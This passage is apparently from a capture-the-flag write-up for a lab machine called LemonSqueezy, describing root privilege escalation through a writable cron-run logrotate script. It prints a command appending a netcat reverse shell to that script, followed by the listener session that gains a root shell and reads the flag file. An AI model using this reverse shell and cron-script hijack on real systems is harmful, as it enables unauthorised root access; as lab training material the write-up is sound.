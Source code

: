 ## Privilege Escalation 
### Cron Job

To get root I added a netcat reverse shell to logrotate script, started a netcat listener wait a minutes and I got a root shell.

```bash
www-data@lemonsqueezy:/dev/shm$ echo 'os.system("nc 192.168.179.1 1331 -e /bin/bash ")' >> /etc/logrotate.d/logrotate

root@kali:~$ nc -vlnp 1331
listening on [any] 1331 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.158] 41410
id
uid=0(root) gid=0(root) groups=0(root)
script -qc /bin/bash /dev/null
root@lemonsqueezy:~# ls
ls
root.txt
root@lemonsqueezy:~# cat root.txt
cat root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
```

